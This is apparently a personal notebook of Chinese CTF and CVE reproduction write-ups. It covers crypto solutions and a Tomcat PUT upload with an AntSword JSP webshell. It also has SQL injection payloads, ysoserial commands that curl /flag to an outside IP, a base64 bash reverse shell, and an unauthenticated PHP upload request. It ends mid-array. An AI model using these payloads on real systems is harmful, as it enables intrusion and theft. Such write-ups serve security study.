一个重要的点 rot13是自反的 所以解它的时候再使用一次即可

直接写脚本即可

~~~python

import base64
import codecs

secret = "==jEgWTn8kJrRyRFBuKJLuzH1LmDTAzs"
#应用ROT13解码（ROT13是自反的，所以同样操作即可）
step1 = codecs.decode(secret, 'rot13')
#将字符串进行反转
step2 = step1[::-1]
#进行base64编码解码
step3 = base64.b64decode(step2).decode('utf-8')
#之后再进行字符串ASCII值减1 添加
step4 = ''.join([chr(ord(c) - 1) for c in step3])
#再进行反转即可
result = step4[::-1]
print(result)
~~~

上述是python脚本

以下是php脚本

~~~php
<?php

$secret = "==jEgWTn8kJrRyRFBuKJLuzH1LmDTAzs";

$step1 = str_rot13($secret);

$step2 = strrev($step1);

$step3 = base64_decode($step2);

$flag = "";

for ($i = 0; $i < strlen($step3); $i++){
	$char = $step3[$i];
	$ordChar = ord($char) - 1;
	$char = chr($ordChar);
	$flag = $flag.$char;
}

$flag = strrev($flag);

echo $flag;

?>
~~~

## cve-2017-12615

Apache Tomcat 7.0.0 - 7.0.81 (windows环境)

当 Tomcat 运行在 Windows 操作系统时，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限

在conf/web.xml文件中 默认的readonly为true，禁止http进行put和delete类型请求

所以当web.xml文件中的readonly设置为false时便可以通过put/delete进行文件操控


主要的三种方式：

shell.jsp%20

shell.jsp::$DATA

shell.jsp/

源码：

~~~java
 @Override
    protected void doPut(HttpServletRequest req, HttpServletResponse resp)
        throws ServletException, IOException {

        if (readOnly) {// 若 readOnly=true 则拒绝请求
            resp.sendError(HttpServletResponse.SC_FORBIDDEN);
            return;
        }

        String path = getRelativePath(req);// 获取请求路径

        boolean exists = true;
        try {
            resources.lookup(path);// 获取资源对象
        } catch (NamingException e) {
            exists = false;
        }

        boolean result = true;

        File contentFile = null;

        Range range = parseContentRange(req, resp);
        InputStream resourceInputStream = null;
        if (range != null) {
            contentFile = executePartialPut(req, range, path);
            resourceInputStream = new FileInputStream(contentFile);
        } else {
            resourceInputStream = req.getInputStream();
        }
        try {
            Resource newResource = new Resource(resourceInputStream);
            if (exists) {
                resources.rebind(path, newResource);
            } else {
                resources.bind(path, newResource);// 写入文件（漏洞触发点)
            }
        } catch(NamingException e) {
            result = false;
        }
       ...

~~~

~~~java
    @Override
    public void bind(Name name, Object obj, Attributes attrs)
        throws NamingException {
        dirContext.bind(parseName(name), obj, attrs);
        cacheUnload(name.toString());
    }

~~~


蚁剑连接jsp一句木马

~~~jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
~~~

## b64

2020-网鼎杯-白虎组-Crypto

题目直接给了一个密文

~~~text
密文:uLdAuO8duojAFLEKjIgdpfGeZoELjJp9kSieuIsAjJ/LpSXDuCGduouz

泄露的密文:pTjMwJ9WiQHfvC+eFCFKTBpWQtmgjopgqtmPjfKfjSmdFLpeFf/Aj2ud3tN7u2+enC9+nLN8kgdWo29ZnCrOFCDdFCrOFoF=
泄露的明文:ashlkj!@sj1223%^&*Sd4564sd879s5d12f231a46qwjkd12J;DJjl;LjL;KJ8729128713
# base64编码后的明文:YXNobGtqIUBzajEyMjMlXiYqU2Q0NTY0c2Q4NzlzNWQxMmYyMzFhNDZxd2prZDEySjtESmpsO0xqTDtLSjg3MjkxMjg3MTM=
~~~

看了别人的wp

才发现 人与人之间的差距好大 谁的脑洞那么大 这能想到

先把泄露的明文进行base64编码 然后会发现位数跟泄露的密文一样

对比后三位会发现 密文是明文相对应的加密

MTM对应FoF

然后尝试拿到它们的对应关系

~~~text
[('U', 'Q'), ('G', 'J'), ('a', 'v'), ('s', '8'), ('d', '3'), ('N', 'j'), ('F', '/'), ('Q', 'm'), ('3', 'O'), ('i', 'B'), ('0', 'g'), ('y', 'e'), ('S', 'n'), ('m', 'L'), ('M', 'F'), ('c', 'q'), ('I', 'i'), ('h', 'A'), ('X', 'T'), ('E', '+'), ('z', 'f'), ('k', 'D'), ('q', 'W'), ('2', 't'), ('4', 'P'), ('O', 'k'), ('W', 'S'), ('p', 'N'), ('r', '7'), ('t', '9'), ('b', 'w'), ('o', 'M'), ('l', 'K'), ('L', 'Z'), ('x', 'd'), ('Z', 'u'), ('D', '2'), ('B', 'H'), ('T', 'o'), ('j', 'C'), ('g', 'r'), ('Y', 'p')]
~~~

然后拿去进行对照 但是有密文中有几个字母是没有相对应字符的

['E', 'G', 'I', 's', 'X', 'z']

然后有`['+', '/', '1', '5', '7', '6', '9', '8', 'A', 'C', 'H', 'K', 'J', 'P', 'R', 'V', 'e', 'f', 'n', 'u', 'w', 'v']` 这么多位字符也没有被映射

然后flag又是uuid的 所以说明有多个 直接对两个表进行爆破映射

python2脚本

~~~python
# -*- coding: utf-8-*-
from base64 import *
from string import *
def check(s):
    for i in s:
        if i not in "flag{-1234567890abcdef}":
            return False
    return True
flag = 'uLdAuO8duojAFLEKjIgdpfGeZoELjJp9kSieuIsAjJ/LpSXDuCGduouz'
a='pTjMwJ9WiQHfvC+eFCFKTBpWQtmgjopgqtmPjfKfjSmdFLpeFf/Aj2ud3tN7u2+enC9+nLN8kgdWo29ZnCrOFCDdFCrOFoF='
b='YXNobGtqIUBzajEyMjMlXiYqU2Q0NTY0c2Q4NzlzNWQxMmYyMzFhNDZxd2prZDEySjtESmpsO0xqTDtLSjg3MjkxMjg3MTM='
alpha = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789abcdefABCDEF+/'
FLAG=''
print("fail words")
for i in flag:
    if i in a:
        index = a.index(i)
        FLAG+=b[index]
    else:
        FLAG+='!'
        print i,
print "\nFLAG cipher"
print FLAG
#'ZmxhZ3sxZTNhMm!lN!0xYz!yLT!mNGYtOWIyZ!!hNGFmYW!kZj!xZTZ!'
print "alternative words"
aw=""
for i in alpha:
    if i not in b:
        aw += i
print aw
'@#$%^&'
table = 'ACHJKPRVefnuvw156789efAC+/'
print("for z")
for i in table:
    if b64decode("ZTZ"+i)[-1] == '}':
        FLAG = FLAG.replace("ZTZ!","ZTZ9")
        table = table.replace(i,"")
        #print FLAG
print("for G")
for i in table:
    if check(b64decode("Zj"+i+"x")) and check(b64decode("Yz"+i+"y")):
        #print b64decode("Zj"+i+"x")
        FLAG = FLAG.replace("Zj!x","Zj"+i+"x").replace("Yz!y","Yz"+i+"y")
        table = table.replace(i,"")
        #print i
        #print FLAG
print("for I and s")
for i in table:
    for j in table:
        if check(b64decode("N"+i+"0x")) and check(b64decode("Z"+i+j+"h")):
            #print b64decode("N"+i+"0x"),b64decode("Z"+i+j+"h")
            FLAG = FLAG.replace("N!0x","N"+i+"0x").replace("Z!!h","Z"+i+j+"h")
            table = table.replace(i,"").replace(j,"")
            #print i,j
            #print FLAG
print("for X and E")
for i in table:
    for j in table:
        if j == i:
            continue
        s = b64decode(FLAG.replace("Mm!l","Mm"+i+"l").replace("LT!m","LT"+i+"m").replace("YW!k","YW"+j+'k'))
        if check(s):
            print s
~~~

然后它的flag形式为uuid

即8-4-4-12的形式

上面的脚本爆不出来 不知道为什么

## rua

2020-网鼎杯-朱雀组-rua

主要涉及rsa 低指数加密攻击

rsa知识：

一种非对称加密算法

将两个大质数相乘很容易，但是想要将其乘积分解成原始的质数因子却非常困难。这就是所谓的“陷门函数TDF”的概念，是RSA加密安全性的基础

rsa密钥生成：


rsa的加密解密：


数论基础：


在模运算中，如果一个数 a在模 m下的逆元是 b，那么满足 a×b≡1(modm)。也就是说，a和 b的乘积除以 m的余数是 1。


使用扩展欧几里得算法计算逆元

必须是a,b两个数的最大公约数等于1时才存在逆元

python中的内置函数pow(a,-1,b)使用的就是该算法

~~~python
def extended_gcd(a, b):
    if b == 0:
        return a, 1, 0
    gcd, x1, y1 = extended_gcd(b, a % b)
    x = y1
    y = x1 - (a // b) * y1
    return gcd, x, y

# 计算逆元
gcd, x, y = extended_gcd(a, m)
if gcd != 1:
    raise ValueError("逆元不存在")
inverse = x % m  # 调整到 [0, m-1]
~~~

费马小定理计算逆元：

如果p是一个质数，且a是一个不被p整除的整数（即 a 与 p 互质）


能够使用的前提就是p是一个质数 然后a刚好又不被p整除即gcd(a,p)=1

~~~python
#费马小定理求逆元
def mod_inverse_fermat(a, p):
    """
    使用费马小定理计算 a 在模 p 下的逆元
    条件：p 必须是质数，且 a 不被 p 整除
    """
    if not (is_prime(p) and a % p != 0):
        raise ValueError("费马小定理条件不满足")

    # 计算 a^(p-2) mod p
    return pow(a, p - 2, p)


# 辅助函数：检查质数（简单实现）
def is_prime(n):
    if n < 2:
        return False
    for i in range(2, int(n ** 0.5) + 1):
        if n % i == 0:
            return False
    return True


# 示例使用
a = 3
p = 11
inverse = mod_inverse_fermat(a, p)
print(f"{a} 在模 {p} 下的逆元是 {inverse}")  # 输出: 3 在模 11 下的逆元是 4
~~~

rsa低指数加密攻击:

RSA低加密指数攻击是一种针对RSA加密算法的攻击方式，它利用了RSA算法中公钥指数e值较小的弱点。当e值较小，且明文m的e次方仍然小于模数n时，可以直接通过对密文进行e次方根的计算来获取明文。这种攻击方式通常适用于e值非常小（例如e=3）的情况，并且明文m也相对较小


攻击原理：

当加密指数e很小，比如e=3，并且明文m也很小，导致m的e次方仍然小于模数n，那么密文c实际上就等于m的e次方。这时，通过对密文c进行e次方根的计算，就可以直接得到明文m。数学表达式为： [ c = m^e \mod n ] 如果 ( m^e < n )，则 ( c = m^e )

在实际攻击中，如果密文c减去一个适当的倍数k乘以模数n后能够进行e次方根的计算，那么也可以得到明文。攻击者可以尝试不同的k值，直到找到一个使得 ( c - kn ) 能够进行e次方根计算的k值

~~~python
import gmpy2
from Crypto.Util.number import long_to_bytes

# 假设已知的RSA参数
n = 0xB0BEE5E3E9E5A7E8D00B493355C618FC8C7D7D03B82E409951C182F398DEE3104580E7BA70D383AE5311475656E8A964D380CB157F48C951ADFA65DB0B122CA40E42FA709189B719A4F0D746E2F6069BAF11CEBD650F14B93C977352FD13B1EEA6D6E1DA775502ABFF89D3A8B3615FD0DB49B88A976BC20568489284E181F6F11E270891C8EF80017BAD238E363039A458470F1749101BC29949D3A4F4038D463938851579C7525A69984F15B5667F34209B70EB261136947FA123E549DFFF00601883AFD936FE411E006E4E93D1A00B0FEA541BBFC8C5186CB6220503A94B2413110D640C77EA54BA3220FC8F4CC6CE77151E29B3E06578C478BD1BEBE04589EF9A197F6F806DB8B3ECD826CAD24F5324CCDEC6E8FEAD2C2150068602C8DCDC59402CCAC9424B790048CCDD9327068095EFA010B7F196C74BA8C37B128F9E1411751633F78B7B9E56F71F77A1B4DAAD3FC54B5E7EF935D9A72FB176759765522B4BBC02E314D5C06B64D5054B7B096C601236E6CCF45B5E611C805D335DBAB0C35D226CC208D8CE4736BA39A0354426FAE006C7FE52D5267DCFB9C3884F51FDDFDF4A9794BCFE0E1557113749E6C8EF421DBA263AFF68739CE00ED80FD0022EF92D3488F76DEB62BDEF7BEA6026F22A1D25AA2A92D124414A8021FE0C174B9803E6BB5FAD75E186A946A17280770F1243F4387446CCCEB2222A965CC30B3929
e = 3
c = 0x10652cdfaa6b63f6d7bd1109da08181e500e5643f5b240a9024bfa84d5f2cac9310562978347bb232d63e7289283871efab83d84ff5a7b64a94a79d34cfbd4ef121723ba1f663e514f83f6f01492b4e13e1bb4296d96ea5a353d3bf2edd2f449c03c4a3e995237985a596908adc741f32365

# 尝试不同的k值进行攻击
for k in range(1, e):
m, exact = gmpy2.iroot(c + k * n, e)
if exact:
print('明文m为:', long_to_bytes(int(m)))
break
~~~

打开题目 看到密文

~~~text
密文
8024667293310019199660855174436055144348010556139300886990767145319919733369837206849070207955417356957254331839203914525519504562595117422955140319552013305532068903324132309109484106720045613714716627620318471048195232209672212970269569790677144450501305289670783572919282909796765124242287108717189750662740283813981242918671472893126494796140877412502365037187659905034193901633516360208987731322599974612602945866477752340080783296268396044532883548423045471565356810753599618810964317690395898263698123505876052304469769153374038403491084285836952034950978098249299597775306141671935146933958644456499200221696
n
18856599160001833299560082802925753595735945621023660831294740454109973698430284916320395522883536507135735383517926050963512440162483065097256884040938259092582892259657340825971260278387406398529168309426241530551396056450450728728601248269612166083300938497235910244979946020059799495231539400114422748104072550004260736766137354572252872437140063474603268146956570787143010441293268321641092743010805639953103578977668248726500636191043930770036787317928372179939360510179438436665591755940224156131460271763912868322774604558314812111335691108887319827579162188169744014973478052491398688611046800951698773893393

密文
17388575106047489057419896548519877785989670179021521580945768965101106268068805843720622749203590810185213416901978773748832854888898576822477243682874784689127705334243899967896321836688567602323551986980634884700045627950473546069670440078998428940082620044462222475031805594211784370238038168894827559017562364252406425134530719911057780692073760058203345936344269833206906999625580911856011564697811258009937314511410514416706482571471852503756675411177080916350899445106002226392895645443215522671155311715637759618276305217468892076287376401516124640727839779731609203202530346427613422430202271506248285086956
n
21996468204721630460566169654781925102402634427772676287751800587544894952838038401189546149401344752771866376882226876072201426041697882026653772987648569053238451992877808811034545463363146057879646485465730317977739706776287970278094261290398668538232727000322458605289913900919015380904209692398479885177984131014170652915222062267448446642158394150657058846328033404309210836219241651882903083719822769947131283541299760283547938795574020478852839044803553093825730447126796668238131579735916546235889726257184058908852902241422169929720898025622336508382492878690496154797198800699611812166851455110635853297883

密文
5170826942130658374627267470548549396328896108666717036999395626588154882531377393671593939192779292151584678688653835775920356845071292462816417186595460417761844407911946323815187102170021222644920874070699813549492713967666736815947822200867353461264579419205756500926218294604616696969184793377381622818381733352202456524002876336304465082656612634304327627259494264840838687207529676882041997761204004549052900816658341867989593333356630311753611684503882509990853456022056473296726728969894815574884063807804354952314391764618179147583447848871220103094864884798102542377747761263052887894135796051521881179607
n
22182114562385985868993176463839749402849876738564142471647983947408274900941377521795379832791801082248237432130658027011388009638587979450937703029168222842849801985646044116463703409531938580410511097238939431284352109949200312466658018635489121157805030775386698514705824737070792739967925773549468095396944503293347398507980924747059180705269064441084577177316227162712249300900490014519213102070911105044792363935553422311683947941027846793608299170467483012199132849683112640658915359398437290872795783350944147546342693285520002760411554647284259473777888584007026980376463757296179071968120796742375210877789
~~~

拿到密文 看到他们的数据很大

所以先尝试拿他们的gcd


发现他们互质

就可以去猜测e很小

这时候e=3 能开平方

还有一种可以使用中国剩余定理 CRT

c0 = n0 % n

c1 = n1 % n

c2 = n2 % n

~~~python
from functools import reduce
from math import gcd

import gmpy2
from Crypto.Util.number import *
from libnum import n2s

c0 = 8024667293310019199660855174436055144348010556139300886990767145319919733369837206849070207955417356957254331839203914525519504562595117422955140319552013305532068903324132309109484106720045613714716627620318471048195232209672212970269569790677144450501305289670783572919282909796765124242287108717189750662740283813981242918671472893126494796140877412502365037187659905034193901633516360208987731322599974612602945866477752340080783296268396044532883548423045471565356810753599618810964317690395898263698123505876052304469769153374038403491084285836952034950978098249299597775306141671935146933958644456499200221696
n0 = 18856599160001833299560082802925753595735945621023660831294740454109973698430284916320395522883536507135735383517926050963512440162483065097256884040938259092582892259657340825971260278387406398529168309426241530551396056450450728728601248269612166083300938497235910244979946020059799495231539400114422748104072550004260736766137354572252872437140063474603268146956570787143010441293268321641092743010805639953103578977668248726500636191043930770036787317928372179939360510179438436665591755940224156131460271763912868322774604558314812111335691108887319827579162188169744014973478052491398688611046800951698773893393
c1 = 17388575106047489057419896548519877785989670179021521580945768965101106268068805843720622749203590810185213416901978773748832854888898576822477243682874784689127705334243899967896321836688567602323551986980634884700045627950473546069670440078998428940082620044462222475031805594211784370238038168894827559017562364252406425134530719911057780692073760058203345936344269833206906999625580911856011564697811258009937314511410514416706482571471852503756675411177080916350899445106002226392895645443215522671155311715637759618276305217468892076287376401516124640727839779731609203202530346427613422430202271506248285086956
n1 = 21996468204721630460566169654781925102402634427772676287751800587544894952838038401189546149401344752771866376882226876072201426041697882026653772987648569053238451992877808811034545463363146057879646485465730317977739706776287970278094261290398668538232727000322458605289913900919015380904209692398479885177984131014170652915222062267448446642158394150657058846328033404309210836219241651882903083719822769947131283541299760283547938795574020478852839044803553093825730447126796668238131579735916546235889726257184058908852902241422169929720898025622336508382492878690496154797198800699611812166851455110635853297883
c2 = 5170826942130658374627267470548549396328896108666717036999395626588154882531377393671593939192779292151584678688653835775920356845071292462816417186595460417761844407911946323815187102170021222644920874070699813549492713967666736815947822200867353461264579419205756500926218294604616696969184793377381622818381733352202456524002876336304465082656612634304327627259494264840838687207529676882041997761204004549052900816658341867989593333356630311753611684503882509990853456022056473296726728969894815574884063807804354952314391764618179147583447848871220103094864884798102542377747761263052887894135796051521881179607
n2 = 22182114562385985868993176463839749402849876738564142471647983947408274900941377521795379832791801082248237432130658027011388009638587979450937703029168222842849801985646044116463703409531938580410511097238939431284352109949200312466658018635489121157805030775386698514705824737070792739967925773549468095396944503293347398507980924747059180705269064441084577177316227162712249300900490014519213102070911105044792363935553422311683947941027846793608299170467483012199132849683112640658915359398437290872795783350944147546342693285520002760411554647284259473777888584007026980376463757296179071968120796742375210877789


print(gcd(n0,n1))
print(gcd(n1,n2))
print(gcd(n0,n2))

#使用中国剩余定理
# 当相同的明文使用低加密指数(e)和不同的模数(n)加密时，可以利用CRT恢复明文
def modinv(a,m):
    # gmpy2.mpz用于创建和处理大整数（任意精度的整数）
    return int(gmpy2.invert(gmpy2.mpz(a),gmpy2.mpz(m))) #计算a在模m下的乘法逆元
# 提供高精度数学运算功能，处理大整数运算 gmpy2
def chinese_remainder(n,a):
    sum = 0
    prod = reduce(lambda a,b: a*b, n) #计算列表n中所有元素的乘积  用于对可迭代对象进行累积操作
    for n_i,a_i in zip(n,a):
        p = prod // n_i
        sum += a_i * modinv(p,n_i)*p
    return int (sum % prod)
nset = [n0,n1,n2]
cset = [c0,c1,c2]

res = chinese_remainder(nset,cset)
#res 真实明文的多次方 所以需要进行爆破一下
for i in range(2,20):
    try:
        # gmpy2.iroot()计算n的k次方根，返回一个元组(根, 是否精确)
        print(n2s(int(gmpy2.iroot(res,i)[0]))) #n2s将大整数转换为字符串（字节序列） 将解密得到的整数转换为可读的明文
    except:
        pass
~~~

## simple

2020-朱雀组-Crypto-simple

仿射密码：

为单表加密的一种，字母系统中所有字母都藉一简单数学方程加密，对应至数值，或转回字母。它是一种替换密码，利用加密函数一个字母对一个字母的加密.


打开题目 拿到密文

~~~text
k1:123456   k2:321564  密文为:kgws{m8u8cm65-ue9k-44k5-8361-we225m76eeww}
~~~

看到密文以及给出的两个k1,k2

可以猜测k1，k2为密钥 加密方式为仿射加密

K = (k1,k2)

以下的脚本避免了乘法的逆元运算

~~~python
import gmpy2
from math import gcd
import string


k1 = 123456 % 26
k2 = 321564 % 26
enc = "kgws{m8u8cm65-ue9k-44k5-8361-we225m76eeww}"
# print(gcd(k1,26))


flag = ""
#c是密文里面的其中一个字母
for c in enc:
    #判断c是否存在于小写字母之中
    #不在就直接添加至flag中
    if c not in string.ascii_lowercase:
        flag += c
    else:
        #在的话 再从所有的26个小写字母中进行遍历
        for m in string.ascii_lowercase:
            #然后拿取所有可能得明文进行加密 加密之后与原明文进行比较 相同即可
            if (k1 * (ord(m) - ord('a')) + k2) % 26 == ord(c) - ord('a'):
                flag += m
                break
print (flag)
~~~

注意这里可以试出来实际的互素因子 为13

因为26的因子只有 2 和 13

所以其他版本的脚本为

~~~python
import gmpy2
import string
enc = "kgws{m8u8cm65-ue9k-44k5-8361-we225m76eeww}"
k1 = 123456
k2 = 321564
flag = ""
for i in enc:
    if i in string.ascii_lowercase:
        a = ord(i) - ord('a')
        inv = gmpy2.invert(k1,13)
        flag += chr(((a-k2)*inv)%13+97)
        print(flag)
    else:
        flag += i
        print(flag)
~~~

## java反序列化

2020网鼎杯朱雀组 java反序列化2

打开站点


发现没有权限 同时给了一个附件 里面是class文件

然后使用jdx打开 进行反编译


然后看到源码 源码中存在swagger这个注释

使用这个注释会存在一个在线测试接口的服务

所以可以去访问swagger-ui.html


看到存在两个路径 登录和获取当前用户信息

再点击test 里面还存在一个测试接口


可以发现存在一个dbname

猜测可以进行sql注入

然后去看源码

源码中的sqldict确实也存在着sql语句连接


先进行传入空

它的数据库会直接连接myapp然后就去查

可以看到回显


主要的sql查询语句

~~~java
 String sql = "Select TABLE_COMMENT from INFORMATION_SCHEMA.TABLES Where table_schema = '" + dbName + "' and table_name='" + TableName + "';";
~~~

~~~java
 if (dbName != null && !dbName.equals("")) {
                dbName2 = "jdbc:mysql://mysqldbserver:3306/" + dbName;
            } else {
                dbName2 = "jdbc:mysql://mysqldbserver:3306/myapp";
            }
            if (user == null || dbName2.equals("")) {
                user = "root";
            }
            if (pass == null || dbName2.equals("")) {
                pass = "abc@12345";
            }
            conn = DriverManager.getConnection(dbName2, user, pass);

~~~

然后进行注入

~~~sql
myapp#' union select 2#
~~~


回显成功

~~~sql
myapp#' union select name from user#
myapp#' union select pwd from user#
myapp#' union select group_concat(name,0x3e,pwd) from user #
~~~


查询成功 然后拿去登录接口测试

拿到一个回显值

```
{
  "data": "Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABmN0Zmh1Yg==",
  "msg": "登录成功",
  "status": 2,
  "timestamps": 1758076694086
}
```

看到data中的头 很明显的一个开头 ro0AB即一个java反序列化

这个data相当于一个token值

拿到之后可以去查询当前的用户


回显到当前用户

然后对其进行抓包

扫描是否存在利用漏洞


发现存在ROME链条

即远程执行命令漏洞

然后通过ysoserial去打获取到反序列化的编码

~~~text
java -jar .\ysoserial-all.jar ROME "curl http://10.65.119.131:6666 -d @/flag" > flag.bin
~~~

然后再公网监听端口

反弹shell语句 bash -i >& /dev/tcp/ip/port 0>1

一般转为base64进行绕过

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45NC4yMTMuMTk3LzY2NjYgMD4mMQ==} | {bash64,-d} | {bash,-i}

在不出网的情况下 即内网 同一网段情况下

可以这么打 在kali中创建

~~~text
mkdir /tmp/http_server
cd /tmp/http_server
python3 -m http.server 6666
~~~

~~~text
java -jar .\ysoserial-all.jar ROME "curl http://10.65.119.131:6666/?flag=$(cat /flag)" > flag.bin
~~~

然后对payload进行编码提交即可

~~~python
#base64与16进制互相转换，也可以将bin文件转为base64
# -r [bin文件路径] -base64 [当前编码为base64] -hex [当前编码为16进制] -code [需要转码的内容]
import base64
import sys
import os


def base64_to_hex(b64):
    b64 = b64.replace(' ', '')  # Remove spaces
    pad_len = len(b64) % 4
    if pad_len > 0:
        b64 += '=' * (4 - pad_len)

    return base64.b64decode(b64).hex()


def hex_to_base64(hex_str):
    byte_string = bytes.fromhex(hex_str)
    return base64.b64encode(byte_string).decode()


if __name__ == '__main__':
    encode_type = None
    code = None
    file_path = None

    for i in range(1, len(sys.argv)):
        if sys.argv[i] == '-code':
            code = sys.argv[i + 1]
            i += 1
        elif sys.argv[i] == '-base64':
            encode_type = 'base64'
        elif sys.argv[i] == '-hex':
            encode_type = 'hex'
        elif sys.argv[i] == '-r':
            file_path = sys.argv[i + 1]
            i += 1

    if encode_type is None and code is None and file_path is None:
        print('Usage: python code_convert.py [-base64/-hex] [-r file_path] [-code "code_string"]')
        sys.exit(1)

    # 直接把bin文件内容转为base64
    if file_path:
        with open(os.path.abspath(file_path), 'rb') as f:
            code = f.read()
            fbase64 = base64.b64encode(code)
            print(fbase64)
            f.close

    else:

        if code:
            if encode_type == 'base64':
                hex_result = base64_to_hex(code)
                print(f'Base64 {code} to Hex: {hex_result}')
            elif encode_type == 'hex':
                b64_result = hex_to_base64(code)
                print(f'Hex {code} to Base64: {b64_result}')

        if encode_type is None or code is None:
            print('Usage: python code_convert.py [-base64/-hex] -code "code_string"')
            sys.exit(1)

        if encode_type == 'base64':
            hex_result = base64_to_hex(code)
            print(f'Base64 {code} \n to Hex: {hex_result}')
        elif encode_type == 'hex':
            b64_result = hex_to_base64(code)
            print(f'Hex {code} \n to Base64: {b64_result}')
~~~

还有内网和公网的情况下 站点在公网 而自己是内网

使用cpolar进行中转

token：

~~~text
YmI3ZTc3MzAtZmZkNi00ZDgyLTg1YzYtZGFiYTcyZjg4YjRm
~~~

配置


接着穿透

cpolar http 端口号

然后再开一个端口即可

```
python3 -m http.server 6666
```

接着进行监听

内网不会打 然后也没有公网ip放弃了

## cve-2023-33440

Faculty Evaluation System v1.0 存在未授权任意文件上传漏洞漏洞

未授权登录上传文件


打开站点发现没有任何东西 

直接开扫


发现有login

直接进行访问


发现登录失败

然后看别人的解法 是直接抓包 

先抓一次包 拿到host和refer

然后直接构造的poc

poc在ajax.php中构造

这个poc主要是别人通过源码分析出来的


直接使用即可

~~~text
POST /eval/ajax.php?action=update_user HTTP/1.1  
Host: x.x.x.x  
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0  
Accept: */*  
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3  
Accept-Encoding: gzip, deflate  
X-Requested-With: XMLHttpRequest  
Referer: http://x.x.x.x/eval/index.php?page=report  
Content-Length: 737  
Content-Type: multipart/form-data; boundary=---------------------------166782539326470  
Connection: close  
  
-----------------------------166782539326470  
Content-Disposition: form-data; name="id"  
  
1  
-----------------------------166782539326470  
Content-Disposition: form-data; name="firstname"  
  
Administrator  
-----------------------------166782539326470  
Content-Disposition: form-data; name="lastname"  
  
a  
-----------------------------166782539326470  
Content-Disposition: form-data; name="email"  
  
admin@admin.com  
-----------------------------166782539326470  
Content-Disposition: form-data; name="password"  
  
admin  
-----------------------------166782539326470  
Content-Disposition: form-data; name="img"; filename="php.php"  
Content-Type: application/octet-stream  
  
<?php phpinfo();?>  
-----------------------------166782539326470--
~~~

~~~text
POST /ajax.php?action=update_user HTTP/1.1
Host: eci-2ze0lpvzvikzi704zsn3.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://eci-2ze0lpvzvikzi704zsn3.cloudeci1.ichunqiu.com/index.php
Content-Length: 752
Content-Type: multipart/form-data; boundary=---------------------------166782539326470
Connection: close
 
-----------------------------166782539326470
Content-Disposition: form-data; name="id"
 
1
-----------------------------166782539326470
Content-Disposition: form-data; name="firstname"
 
Administrator
-----------------------------166782539326470
Content-Disposition: form-data; name="lastname"
 
a
-----------------------------166782539326470
Content-Disposition: form-data; name="email"
 
admin@admin.com
-----------------------------166782539326470
Content-Disposition: form-data; name="password"
 
admin
-----------------------------166782539326470
Content-Disposition: form-data; name="img"; filename="php.php"
Content-Type: application/octet-stream
 
<?php system("cat /flag");?>
-----------------------------166782539326470--
~~~

## xxe任意读取以及excel的使用

网鼎杯javafile

xxe 任意读取上传


filename=../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml


## Product

黑龙江网络安全挑战赛复现

rsa加密

~~~python
from Crypto.Util.number import *
from itertools import *
from random import *
from secret import flag

m = bytes_to_long(flag)
p,q = getPrime(512),getPrime(512) #生成两个512位的大素数
n = p*q #两个大素数相乘因子 作为模数
#四个随机数 主要用于加密
a = randint(0,2**512)
b = randint(0,a)
c = randint(0,b)
d = randint(0,c)
e = 0x10001 #加密指数 作为公钥

#将随机数全部存于一个列表中 负 0 正
num = [[-a,0,a],
      [-b,0,b],
      [-c,0,c],
      [-d,0,d],]

#用于存储、随机化和选择要泄露的数据
h = []
#笛卡尔积的可能组合81种 4个子列表 子列表中有3个元素 3^4=81 所以h有81个组合
for _ in product(*num): #对num列表进行计算笛卡尔积
    total = sum(_   )
    result = pow(total, p, n)
    h.append(result)
    #列表中的数据为每个组合之和的p次幂 再对n求余
shuffle(h) #将列表顺序打乱
leak = h[0:len(h)//2] #取新列表的前一半 暴露出来数据 但是并不是全部暴露
c = pow(m,e,n) #最后加密后的flag值 即余数   m的e次方 再对n求余

print(f'leak = {leak}')
print(f'n = {n}')    
print(f"c = {c}")

'''
leak = [25534798773678814313800627634413444821694794492336332925603677561590270769842677527949685105226534302706361134152764956341120158737838218481976879974590498520414025356807263350025644902555248484449083783487485225460225445569329762652069794808107298937049982711740824858344031578996784909438286879375215130931, 68998264628074329922697853027441728107386154355719209701809666478867260650513703298117492079805085450454821470857867509826480174156612256686453887862175910169687852504026440006586753843531008487309852414616651213703875559247953591212627171612559633242712791376383868388661424610315750599092247240156730831236, 